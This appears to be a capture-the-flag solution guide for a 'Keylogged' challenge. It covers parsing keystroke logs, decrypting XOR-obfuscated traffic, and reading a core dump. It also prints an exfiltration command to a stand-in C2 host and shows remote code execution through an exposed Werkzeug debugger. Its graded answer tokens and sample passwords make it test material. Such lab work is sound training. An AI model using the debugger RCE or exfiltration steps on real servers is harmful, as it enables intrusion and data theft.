


# Keylogged

*Solution Guide*

## Overview

In Keylogged, the team can utilize their own scripts and command line tools to analyze text files that have been captured by a keylogging program installed on various machines.

The first task includes two text files that were found on one machine. The two files will need to be analyzed to find the username entered for one of the accounts.

The second task will involve the participants using the security onion device to detect traffic moving across the network. Teams will need to analyze packet traffic to find the username that was captured from their keylogged data.

The third task will involve participants using gdb to analyze a core dump file of the running keylogger program. From the file, teams will need to determine how to find the username used to access the C2 server.

Keylogged uses randomly-generated 16-digit hexadecimal tokens for all questions; there are no variants.

## Question 1

*What is the token you receive from the grading check for finding the plaintext password that the keylogger captured?*

1. Download `1keyfileA.txt` and `1keyfileB.txt` from `challenge.us` 


2. View the contents of the two files

`cat 1keyfileA.txt` and `cat 1keyfileB.txt`


This log format is difficult to read - the data is split up into many different lines and non-printable characters such as the enter key and shift key are recorded as `Key.enter` and `Key.shift`. 

3. Identify all of the special `Key.` options

```bash
cat 1keyfileA.txt 1keyfileB.txt | grep Key | sort | uniq
```


4. Write a script to parse the log files to improve the formatting and interpret the special key presses

This script will format the data into more structured lines to improve readability. 

```py
import sys

def clean_file(input_file):
  with open(input_file, 'r') as infile:
    output = [ ]
    for line in infile:
      line = line.strip()

      if line == "Key.enter": # Interpret Enter key as a newline
        output.append("\n")
      elif line == "Key.shift" or line == "Key.shift_r": # Shift keys have no effect
        pass
      elif line == "Key.ctrl":
        output.append("<CTRL>")
      elif line == "Key.space":
        output.append(" ")
      elif line == "Key.left":
        output.append("<LEFT>")
      elif line == "Key.right":
        output.append("<RIGHT>")
      elif line == "Key.backspace":
        output.append("<BACKSPACE>")
      elif line == "Key.delete":
        output.append("<DEL>")
      else:
        output.append(line)

    print(''.join(output))

if __name__ == "__main__":
  input_file = sys.argv[1]
  clean_file(input_file)
```

5. Analyze the keylog files with the parser

`1keyfileA.txt` does not appear to show anything of significance. 


`1keyfileB.txt` does appear to have some more interesting data.

About halfway down the file, "portal login" can be found. That is immediately followed by what appears to be a username, `camlabrador` and then a password `byoasteroid#BOOM#!`. In this example, the answer is the password, `byoasteroid#BOOM#!`. 


6. Perform a grading check on `challenge.us`

Submit the password, `byoasteroid#BOOM#!` for the grading check. 


This should return token1, which is `5e5c9d1914c0` in this example, the answer to question 1. 

## Question 2

*One victim machine is actively transmitting files across the network. What is the token you receive from the grading check for finding the plaintext of the password captured in the keylog files that are being sent across the network?*

1. Log in to the `securityonion` machine

2. Start a packet capture using `tcpdump` and wait 1-2 minutes to capture enough traffic

`sudo tcpdump -i tap0 -w out.cap`


3. Open the packet capture in Wireshark

Beyond the standard network traffic, there appears to be a good amount of traffic being sent between `10.1.1.50` and `10.2.2.50`. 


4. Follow the TCP stream

This can be done by right-clicking on one of the packets between `10.1.1.50` and `10.2.2.50`, then selecting `Follow -> TCP Stream`


5. Inspect and export the TCP Stream

When looking at the TCP Stream, the data will appear to be gibberish. This is due to the XOR encryption that was mentioned in the prompt. 


To continue, change the "Show data as" option to "Raw" and then select "Save as..." to export the tcp stream as a raw binary. 


**Repeat this process for the different TCP streams in the data.** There are multiple sets of data that are being sent and it is possible to miss the answer if the data is not picked up in this step. 

6. Perform a brute-force attack on the 1-byte XOR encryption key

From the log files in Question 1, we know that the plaintext of the data would likely contain the string `Key`. This information can be used to confirm when the XOR encryption key has been successfully cracked. 

Write a script to iterate through all 256 possible values for a 1-byte XOR and print out any results that include `Key` as a substring of the output.

```py
import sys
import os

def xor(data, key):
    return bytes([b ^ key for b in data])

def find_xor_key(encrypted_data):
    for key in range(256):
        decrypted_data = xor(encrypted_data, key)
        try:
            decrypted_text = decrypted_data.decode('utf-8')
            if "Key" in decrypted_text:
                return key
        except:
            continue
    return None

if __name__ == "__main__":
    filepath = sys.argv[1]
    
    with open(filepath, 'rb') as f:
        encrypted_data = f.read()

        key = find_xor_key(encrypted_data)
        if key is not None:
            decrypted_data = xor(encrypted_data, key)
            print(decrypted_data.decode())
        else:
            print(f"Failed to decrypt")
```


7. Use the parsing script from Question 1 to analyze the decrypted TCP streams

The order of the different keylog files will depend on the specific timing of when the packet capture was taken.

However, one of the keylog files has a suspicious looking line that appears prior to a new message to Sarah, matching the behavior described in the prompt. 



It appears that the username is `JubilationLee`. To determine the password, the `Backspace` key-presses must be factored in

```plain
blurteem<BACKSPACE><BACKSPACE><BACKSPACE><BACKSPACE><BACKSPACE>eteam1997
blueteam1997
```

In this example, the password is `blueteam1997`

8. Perform a grading check on `challenge.us`.


This should return token2, which is `9f6dacb4533b` in this example, the answer to question 2. 

## Question 3

*What is the token you receive from the grading check for finding the username used to access the C2 server found in the core dump file?*

1. Start by running `strings` on the binary to see if that yields any useful clues

`strings core.11066`

A look through the results will show multiple references to `python`, indicating that this core dump was taken from a python program. 


2. Use `gdb` with the python3 plugin to analyze the core dump. There are dependencies that have already been installed to assist with the debugging process

`gdb python3 core.11066`



3. From within gdb, run `bt` to show the backtrace of the program

This will reveal the in-memory array that is holding the recorded keypresses.


4. Reassemble the data to be more readable

Copy + paste the in-memory array

```plain
['[Key.space]', '[Key.shift]', 'P', 'O', 'S', 'T', '[Key.space]', '-', 'd', '[Key.space]', '[Key.shift_r]', '"', 'l', 'o', 'g', 'f', 'i', 'l', 'e', '.', 't', 'x', 't', '[Key.shift_r]', '"', '[Key.space]', '-', 'u', '[Key.space]', 'n', '0', 'w', '[Key.shift]', 'U', 'c', 'm', '3', '[Key.shift_r]', ':', 'm', '[Key.shift]', '@', 'l', '[Key.shift]', 'C', '2', '[Key.shift]', '_', '[Key.shift]', 'E', 'x', 'f', 'i', 'l', '[Key.shift_r]', '#', '[Key.space]', 'h', 't', 't', 'p', '[Key.shift_r]', ':', '/', '/', 'm', 'a', 'l', 'i', 'c', 'i', 'o', 'u', 's', '-', 'c', '2', '.', 'c', 'o', 'm', '/', ...(truncated),
```

Then, go through each item in the array by hand to recover the full command.  

`POST -d "logfile.txt" -u "n0wUcm3:m@lC2_Exfil# http://malicious-c2.com`

5. Determine the username used for the c2 server

The keystrokes from step 4 appear to be part of a `curl` command sending data to the c2 server, `malicious-c2.com`. 

The `-u` option in curl is used to supply a user's basic authentication credentials. In this case, the username is `n0wUcm3` and the password is `m@lC2_Exfil#`

6. Perform a grading check on `challenge.us`.


This should return token3, which is `aa97220db87a` in this example, the answer to question 3. 


## Question 4

*What is the token found on a hidden webpage on the C2 server?*

1. Visit `http://malicious-c2.com` from a web browser

This is the website referenced from Question 3, that appears to be the C2 server. 


2. Added a query parameter to the URL

The error message presented when visiting the index page indicates that "Query parameter 'filename' is missing!".

Update the URL to include a random 'filename' query parameter (e.g. `http://malicious-c2.com?filename=test`)


Based on the error message, it appears that the web application is attempting to open a file based on the value of the 'filename' query parameter. 

Because the filename was invalid, the web application crashed.

It appears that the debug mode was left on, making the Werkzeug debugger available from this page. 

3. Use the Werkzeug debugger to dump all of the in-memory variables

Hover over any line within the stack trace and click to open the interactive python shell.


Run `globals()` to show the global symbol table.


There is a `hidden_token_page` function which could be a "hidden webpage" from the question prompt. 

4. Call the `hidden_token_page` function

Execute the hidden_token_page with `hidden_token_page()`

The function will return a tuple, `('a1ff70050c5a', 200)`. In this example, 'a1ff70050c5a' is the token and 200 is the status code for the HTTP request.


## Question 5

*What is the token found in one of the C2 server's keylogger logs?*

1. Determine the location of the keylogger logs

Run `globals()` again to show the global symbol table

Notice that there is a variable called `SAVE_DIR` with a value of `/var/log/keylogs`, which appears to be the path to the keylogger logs. 


2. Use the Werkzeug debugger to enumerate the keylogger logs via remote code execution 

```py
subprocess.run('ls /var/log/keylogs', shell=True, capture_output=True).stdout.decode('utf-8')
subprocess.run('cat /var/log/keylogs/*', shell=True, capture_output=True).stdout.decode('utf-8')
```

This will reveal the contents of all of the keylogger log files, including the token, which is '1921409752' in this example. 


